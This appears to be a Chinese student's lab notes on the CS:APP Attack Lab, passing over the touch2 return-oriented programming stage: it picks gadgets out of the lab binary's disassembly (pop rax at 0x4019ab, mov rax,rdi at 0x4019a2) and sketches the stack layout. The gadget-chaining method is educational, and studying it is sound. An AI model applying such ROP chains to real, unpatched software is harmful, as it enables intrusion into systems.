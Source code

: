 找到了这段字节码，后面紧跟着c3，执行ret操作。符合条件，故拟定以下操作。

```assembly
pop rax
mov rax rdi
ret  #touch2
```

首先是找到addval_2代码

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

重点在`58 90 c3`这段，先进行``pop rax`， 然后90是一个nop操作，最后c3执行ret弹栈。位置是`0x4019ab`

然后是addval_273这段

```assembly
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
```

`48 89 c7 c3`进行`mov rax rdi`，最后ret。地址为`0x4019a2`

最终栈结构如图

![image-20211030162640759](实验3：AttackLab.assets/image-20211030162640759.png)

